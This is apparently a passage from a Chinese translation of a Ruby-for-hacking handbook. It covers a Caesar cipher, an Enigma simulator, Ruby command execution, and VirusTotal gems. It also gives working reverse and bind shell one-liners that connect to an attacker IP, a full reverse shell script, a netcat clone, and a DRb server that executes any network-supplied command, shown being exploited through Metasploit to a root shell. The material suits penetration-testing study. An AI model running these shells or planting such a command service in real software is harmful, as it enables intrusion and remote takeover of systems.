**凯撒密码**是已知的最古老的加密方法之一。它非常简单 - 只是移动字母表。转换被称为 ROTN，其中 N 是移位值，ROT 来自于“旋转”，因为这是一个循环移位。

在 Ruby 中，数组旋转是使用 rotate() 方法的事情。所以我们所需要的就是有一个包含所有字母表的数组，将其旋转并将其与原始给定的字符串进行映射。

```
#!/usb/bin/env ruby
#
# Caesar cipher
#

def caesar_cipher(string, shift=1)
  lowercase, uppercase = ('a'..'z').to_a, ('A'..'Z').to_a
  lower = lowercase.zip(lowercase.rotate(shift)).to_h
  upper = uppercase.zip(uppercase.rotate(shift)).to_h

  # One-liner: encrypter = ([*('a'..'z')].zip([*('a'..'z')].rotate(shift)) + [*('A'..'Z')].zip([*('A'..'Z')].rotate(shift))).to_h
  encrypter = lower.merge(upper)
  string.chars.map{|c| encrypter.fetch(c, c)}
end

string = ARGV[0]
1.upto(30) do |r|
  puts "ROT#{r}) " + caesar_cipher(string, r).join
end 
```

结果

```
$-> ruby caesar-cypher.rb Fipmti
ROT1) Gjqnuj
ROT2) Hkrovk
ROT3) Ilspwl
ROT4) Jmtqxm
ROT5) Knuryn
ROT6) Lovszo
ROT7) Mpwtap
ROT8) Nqxubq
ROT9) Oryvcr
ROT10) Pszwds
ROT11) Qtaxet
ROT12) Rubyfu   <--
ROT13) Svczgv
ROT14) Twdahw
ROT15) Uxebix
ROT16) Vyfcjy
ROT17) Wzgdkz
ROT18) Xahela
ROT19) Ybifmb
ROT20) Zcjgnc
ROT21) Adkhod
ROT22) Belipe
ROT23) Cfmjqf
ROT24) Dgnkrg
ROT25) Eholsh
ROT26) Fipmti
ROT27) Gjqnuj
ROT28) Hkrovk
ROT29) Ilspwl
ROT30) Jmtqxm 
```

**来源：**

+   [`www.blackbytes.info/2015/03/caesar-cipher-in-ruby/`](http://www.blackbytes.info/2015/03/caesar-cipher-in-ruby/)

+   [`gist.github.com/matugm/db363c7131e6af27716c`](https://gist.github.com/matugm/db363c7131e6af27716c)

+   [`planetcalc.com/1434/`](https://planetcalc.com/1434/)

## 恩格玛机脚本

|  |
| --- |
| **图 1.** 恩格玛机器图解 |

```
Plugboard = Hash[*('A'..'Z').to_a.shuffle.first(20)]
Plugboard.merge!(Plugboard.invert)
Plugboard.default_proc = proc { |hash, key| key }

def build_a_rotor
  Hash[('A'..'Z').zip(('A'..'Z').to_a.shuffle)]
end

Rotor_1, Rotor_2, Rotor_3 = build_a_rotor, build_a_rotor, build_a_rotor

Reflector = Hash[*('A'..'Z').to_a.shuffle]
Reflector.merge!(Reflector.invert)

def input(string)
  rotor_1, rotor_2, rotor_3 = Rotor_1.dup, Rotor_2.dup, Rotor_3.dup

  string.chars.each_with_index.map do |char, index|
    rotor_1 = rotate_rotor rotor_1
    rotor_2 = rotate_rotor rotor_2 if index % 25 == 0
    rotor_3 = rotate_rotor rotor_3 if index % 25*25 == 0

    char = Plugboard[char]

    char = rotor_1[char]
    char = rotor_2[char]
    char = rotor_3[char]

    char = Reflector[char]

    char = rotor_3.invert[char]
    char = rotor_2.invert[char]
    char = rotor_1.invert[char]

    Plugboard[char]
  end.join
end

def rotate_rotor(rotor)
  Hash[rotor.map { |k,v| [k == 'Z' ? 'A' : k.next, v] }]
end

plain_text = 'IHAVETAKENMOREOUTOFALCOHOLTHANALCOHOLHASTAKENOUTOFME'
puts "Encrypted '#{plain_text}' to '#{encrypted = input(plain_text)}'"
puts "Decrypted '#{encrypted}' to '#{decrypted = input(encrypted)}'"
puts 'Success!' if plain_text == decrypted 
```

[来源 | 用 30 行 Ruby 代码理解恩格玛机器](http://red-badger.com/blog/2015/02/23/understanding-the-enigma-machine-with-30-lines-of-ruby-star-of-the-2014-film-the-imitation-game)

* * *

# 命令执行

# 命令执行

在选择这些方式之间需要考虑的一些事项是：

1.  你是否要与非交互式 shell 交互，比如`ncat`？

1.  你只想要标准输出还是需要标准错误输出？或者分开处理？

1.  你的输出有多大？你想要将整个结果保存在内存中吗？

1.  你想在子进程仍在运行时读取一些输出吗？

1.  你需要结果代码吗？

1.  你需要一个代表进程并允许你按需终止它的 Ruby 对象吗？

以下方法适用于所有操作系统。

### Kernel#exec

```
>> exec('date')
Sun Sep 27 00:39:22 AST 2015
RubyFu( ~ )-> 
```

### Kernel#system

```
>> system 'date'
Sun Sep 27 00:38:01 AST 2015
#=> true 
```

#### 处理 `ncat` 会话？

如果你曾想过如何处理 Ruby 中交互式命令（比如 `passwd`）由于 `ncat` 会话？你可能之前使用的是 `python -c 'import pty; pty.spawn("/bin/sh")'`。嗯，在 Ruby 中使用 `exec` 或 `system` 真的很容易。主要的技巧是将 STDERR 转发到 STDOUT，这样你就可以看到系统错误。

**exec**

```
ruby -e 'exec("/bin/sh 2>&1")' 
```

**system**

```
ruby -e 'system("/bin/sh 2>&1")' 
```

### Kernel#` (反引号)

```
>> `date`
#=> "Sun Sep 27 00:38:54 AST 2015\n" 
```

### IO#popen

```
>> IO.popen("date") { |f| puts f.gets }
Sun Sep 27 00:40:06 AST 2015
#=> nil 
```

### Open3#popen3

```
require 'open3'
stdin, stdout, stderr = Open3.popen3('dc') 
#=> [#<IO:fd 14>, #<IO:fd 16>, #<IO:fd 18>, #<Process::Waiter:0x00000002f68bd0 sleep>]
>> stdin.puts(5)
#=> nil
>> stdin.puts(10)
#=> nil
>> stdin.puts("+")
#=> nil
>> stdin.puts("p")
#=> nil
>> stdout.gets
#=> "15\n" 
```

### Process#spawn

Kernel.spawn 在子 shell 中执行给定的命令。它立即返回进程 ID。

```
pid = Process.spawn("date")
Sun Sep 27 00:50:44 AST 2015
#=> 12242 
```

### %x"", %x[], %x{}, %x$''$

```
>> %x"date"
#=> Sun Sep 27 00:57:20 AST 2015\n"
>> %x[date]
#=> "Sun Sep 27 00:58:00 AST 2015\n"
>> %x{date}
#=> "Sun Sep 27 00:58:06 AST 2015\n"
>> %x$'date'$
#=> "Sun Sep 27 00:58:12 AST 2015\n" 
```

### Rake#sh

```
require 'rake'
>> sh 'date'
date
Sun Sep 27 00:59:05 AST 2015
#=> true 
```

### 额外

要检查反引号操作的状态，你可以执行 $?.success?

#### $?

```
>> `date`
=> "Sun Sep 27 01:06:42 AST 2015\n"
>> $?.success?
=> true 
```

#### 如何选择？

在 [stackoverflow](http://stackoverflow.com/a/37329716/967283) 上制作了一个很棒的流程图



* * *

+   [Ruby | 执行系统命令](http://king-sabri.net/?p=2553)

+   [从 Ruby 运行命令的 5 种方式](http://mentalized.net/journal/2010/03/08/5-ways-to-run-commands-from-ruby/)

+   [在 Ruby 中运行 Shell 命令的 6 种方法](http://tech.natemurray.com/2007/03/ruby-shell-commands.html)

+   [如何选择正确的方式](http://stackoverflow.com/a/4413/967283)

+   [在 ruby 中执行命令](http://blog.bigbinary.com/2012/10/18/backtick-system-exec-in-ruby.html)

# 远程 Shell

# 远程 Shell

远程 shell 意味着与目标系统命令行(shell)的正向或反向连接。

**注意：** 对于 Windows 系统，请将 "/bin/sh" 替换为 "cmd.exe"

## 连接到绑定 shell

从终端

```
ruby -rsocket -e's=TCPSocket.new("VictimIP",4444);loop do;cmd=gets.chomp;s.puts cmd;s.close if cmd=="exit";puts s.recv(1000000);end' 
```

因为`192.168.0.15`是受害者 IP

## 反向 shell

攻击者正在端口 4444 上监听 `nc -lvp 4444`。现在在受害机器上运行

```
ruby -rsocket -e's=TCPSocket.open("192.168.0.13",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)' 
```

如果你不想依赖于 `/bin/sh`

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end' 
```

如果你不想依赖于 `cmd.exe`

```
ruby -rsocket -e 'c=TCPSocket.new("192.168.0.13","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end' 
```

因为`192.168.0.13`是攻击者 IP

如果你想要更灵活的脚本文件

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'socket'
if ARGV[0].nil? || ARGV[1].nil?
    puts "ruby #{__FILE__}.rb [HACKER_IP HACKER_PORT]\n\n"
    exit
end
ip, port = ARGV
s = TCPSocket.open(ip,port).to_i
exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s) 
```

## 绑定和反向 shell

这是一个出色的独立实现，由 GitHub 上的[Hood3dRob1n](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells)编写的一个[bind](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/bind.rb)和[reverse](https://github.com/Hood3dRob1n/Ruby-Bind-and-Reverse-Shells/blob/master/rubyrev.rb) shells 脚本。绑定 shell 需要身份验证，而反向 shell 则不需要。

# Ncat.rb

# 纯 Ruby Netcat

## 简单的 Ncat.rb

我找到了[这个](http://4thmouse.com/index.php/2008/02/20/netcat-clone-in-three-languages-part-i-ruby/)简单的 ncat，所以我对它进行了一些增强，并在其中添加了一些注释。

```
#!/usr/bin/ruby
require 'optparse'
require 'ostruct'
require 'socket'

class String
  def red; colorize(self, "\e[1m\e[31m"); end
  def green; colorize(self, "\e[1m\e[32m"); end
  def cyan; colorize(self, "\e[1;36m"); end
  def bold; colorize(self, "\e[1m"); end
  def colorize(text, color_code)  "#{color_code}#{text}\e[0m" end
end

class NetCat

  #
  # Parsing options
  #
  def parse_opts(args)
    @options = OpenStruct.new
    opts = OptionParser.new do |opts|
        opts.banner = "Usage: #{__FILE__}.rb [options]"
        opts.on('-c', '--connect',
            "Connect to a remote host") do
            @options.connection_type = :connect
        end
        opts.on('-l', '--listen',
            "Listen for a remote host to connect to this host") do
            @options.connection_type = :listen
        end
        opts.on('-r', '--remote-host HOSTNAME', String,
            "Specify the host to connect to") do |hostname|
            @options.hostname = hostname || '127.0.0.1'
        end
        opts.on('-p', '--port PORT', Integer,
            "Specify the TCP port") do |port|
            @options.port = port
        end
        opts.on('-v', '--verbose') do
            @options.verbose = :verbose
        end
        opts.on_tail('-h', '--help', "Show this message") do
            puts opts
            exit
        end
    end

    begin
        opts.parse!(args)
    rescue OptionParser::ParseError => err
      puts err.message
      puts opts
      exit
    end
    if @options.connection_type == nil
      puts "[!] ".red + "No Connection Type specified"
      puts opts
      exit
    end
    if @options.port == nil
      puts "[!] ".red + "No Port specified to #{@options.connection_type.to_s.capitalize}"
      puts opts
      exit
    end
    if @options.connection_type == :connect && @options.hostname == nil
      puts "[!] ".red + "Connection type connect requires a hostname"
      puts opts
      exit
    end
  end

  #
  # Socket Management
  #
  def connect_socket
    begin
      if @options.connection_type == :connect
        # Client
        puts "[+] ".green + "Connecting to " + "#{@options.hostname}".bold + " on port " + "#{@options.port}".bold if @options.verbose == :verbose
        @socket = TCPSocket.open(@options.hostname, @options.port)
      else
        # Server
        puts "[+] ".green + "Listing on port " + "#{@options.port}".bold if @options.verbose == :verbose
        server = TCPServer.new(@options.port)
        server.listen(1)
        @socket = server.accept
        print "-> ".cyan
      end
    rescue Exception => e
      puts "[!] ".red + "Error [1]: " + "#{e}"
      exit
    end

  end

  #
  # Data Transfer Management
  #
  def forward_data
    while true
      if IO.select([],[],[@socket, STDIN],0)
        socket.close
      end

      # Send command if done from receiving upto 2-billions bytes
      begin
        while (data = @socket.recv_nonblock(2000000000)) != ""
          STDOUT.write(data)
          print "-> ".cyan
        end
        exit
      rescue Errno::EAGAIN
        # http://stackoverflow.com/questions/20604130/how-to-use-rubys-write-nonblock-read-nonblock-with-servers-clients
      end

      begin
        while (data = STDIN.read_nonblock(2000000000)) != ""
          @socket.write(data)
        end
        exit
      rescue Errno::EAGAIN
        # http://stackoverflow.com/questions/20604130/how-to-use-rubys-write-nonblock-read-nonblock-with-servers-clients
      rescue EOFError
        exit
      end

      # Get all remote system socket(STDIN, STDOUT, STDERR) To my STDIN
      IO.select([@socket, STDIN], [@socket, STDIN], [@socket, STDIN])
    end

  end

  #
  # Run Ncat
  #
  def run(args)
    parse_opts(args)
    connect_socket
    forward_data
  end
end
ncat = NetCat.new
ncat.run(ARGV) 
```

+   监听

    ```
    ruby ncat.rb -lvp 443 
    ```

+   连接

    ```
    ruby ncat.rb -cv -r RHOST -p 443 
    ```

## 另一个 Ncat.rb 的实现

再次来自[Hood3dRob1n](https://github.com/Hood3dRob1n/)一个独立的[RubyCat](https://github.com/Hood3dRob1n/RubyCat)，支持绑定 shell 的密码保护。

* * *

# RCE 作为服务

# RCE 作为服务

DRb 允许 Ruby 程序在同一台机器上或通过网络进行通信。DRb 使用远程方法调用（RMI）在进程之间传递命令和数据。

## RCE 服务

```
#!/usr/bin/env ruby
require 'drb'

class RShell
   def exec(cmd)
     `#{cmd}`
   end
end

DRb.start_service("druby://0.0.0.0:8080", RShell.new)
DRb.thread.join 
```

注意：它适用于所有操作系统平台

`drb`库支持 ACL 以防止/允许特定 IP 地址。例如。

```
#!/usr/bin/env ruby
require 'drb'

class RShell
   def exec(cmd)
     `#{cmd}`
   end
end

# Access List
acl = ACL.new(%w{deny all
                allow localhost
                allow 192.168.1.*})
DRb.install_acl(acl)
DRb.start_service("druby://0.0.0.0:8080", RShell.new)
DRb.thread.join 
```

## 客户端

```
rshell = DRbObject.new_with_uri("druby://192.168.0.13:8080")
puts rshell.exec "id" 
```

或者你可以使用 Metasploit 模块来获得一个优雅的 shell！

```
msf > use exploit/linux/misc/drb_remote_codeexec 
msf exploit(drb_remote_codeexec) > set URI druby://192.168.0.13:8080
uri => druby://192.168.0.13:8080
msf exploit(drb_remote_codeexec) > exploit 

[*] Started reverse double handler
[*] trying to exploit instance_eval
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo UAR3ld0Uqnc03yNy;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "UAR3ld0Uqnc03yNy\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 2 opened (192.168.0.18:4444 -> 192.168.0.13:57811) at 2015-12-24 01:11:30 +0300

pwd
/root
id
uid=0(root) gid=0(root) groups=0(root) 
```

正如你所看到的，即使你失去了会话，你也可以一次又一次地连接；这是一个服务，记住了吗？

注意：仅仅为了使用 Metasploit 模块，你甚至不需要 RShell 类。你只需要目标端的以下内容。

```
#!/usr/bin/env ruby
require 'drb'
DRb.start_service("druby://0.0.0.0:8080", []).thread.join 
```

我建议在 Metasploit 不可用的情况下使用第一个代码。

**参考资料**

+   [Metasploit 技术细节](http://blog.recurity-labs.com/archives/2011/05/12/druby_for_penetration_testers/)

+   [dRuby 书籍](https://pragprog.com/book/sidruby/the-druby-book)

# VirusTotal

# VirusTotal

VirusTotal 是最知名的在线服务之一，用于分析文件和 URL，从而识别病毒、蠕虫、特洛伊木马和其他种类的恶意内容，这些内容被杀毒引擎和网站扫描器检测到。同时，它也可以用作检测误报的手段，即被一个或多个扫描器检测为恶意的无害资源。

## 获取 VirusTotal

1.  注册/登录到 VirusTotal

1.  转到**我的 API 密钥**

1.  请求一个私有的 APT 密钥

    +   不要向你不信任的任何人透露你的私钥。

    +   不要将你的私钥嵌入到可以轻松检索的脚本或软件中

## VirusTotal gem

ruby-virustotal 是 VirusTotal 的自动化和便利工具，用于哈希、文件和 URL 提交。

+   安装 virustotal gem

    ```
    gem install virustotal 
    ```

## 命令行使用

你可以使用 ruby-virustotal gem 作为命令行工具

**- 创建 virustotal 本地配置文件** 要作为命令行工具与 virustotal 交互，你必须创建一个包含你 API 密钥的配置文件。该配置文件将被创建在`~/.virustotal`中。

```
virustotal --create-config 
```

```
cat ~/.virustotal
virustotal:
  api-key:
  timeout: 10 
```

编辑文件并添加你的 API 密钥

+   **搜索哈希文件**

    ```
    virustotal -f <file_with_hashes_one_per_line> 
    ```

+   **搜索单个哈希**

    ```
    virustotal -h FD287794107630FA3116800E617466A9 
    ```

+   **搜索哈希文件并输出为 XML**

    ```
    virustotal -f <file_with_hashes_one_per_line> -x 
    ```

+   **上传文件到 VirusTotal 并等待分析**

    ```
    virustotal -u </path/to/file> 
    ```

+   **搜索单个网址**

    ```
    virustotal -s "http://www.google.com" 
    ```

## uirusu gem

uirusu 是一个 VirusTotal 的自动化和便利工具，用于哈希、文件和网址的提交。

+   安装 uirusu gem

    ```
    gem install uirusu 
    ```

使用方式与 virustotal gem 相同

* * *
